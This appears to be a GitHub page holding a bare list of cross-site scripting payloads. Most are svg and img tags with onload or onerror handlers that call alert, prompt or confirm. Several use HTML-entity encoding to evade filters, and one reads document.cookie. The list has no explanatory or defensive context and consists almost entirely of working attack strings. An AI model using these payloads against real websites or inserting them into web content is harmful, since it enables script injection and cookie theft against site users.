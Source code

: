 # aman952036
"><img+onload=alert&amp;#x45"1
/><svg/on<script>load=prompt(document.cookie);>"/>

"><svg+onload=alert&amp;#x60"1

"><svg+onload=alert&amp;#x2B"1

"><svg+onload=alert&amp;#x5C"1

"><svg+onload=alert&amp;#x99"1

"><svg+onload=alert&amp;#x92"1

"><svg onload=alert&amp;#x27;#x00000040"1")>

"><svg+onload=alert&amp;#x8F"1

"><SVG ONLOAD=&#97&#108&#101&#114&#116(&#x64&#x6f&#x63&#x75&#x6d&#x65&#x6e&#x74&#x2e&#x64&#x6f&#x6d&#x61&#x69&#x6e)>

"><svg+onload=alert&amp;#x45"1

"><svg onload=alert&#x00000040"1")>

"><img src=x onerrora=confirm() onerror=confirm(1)
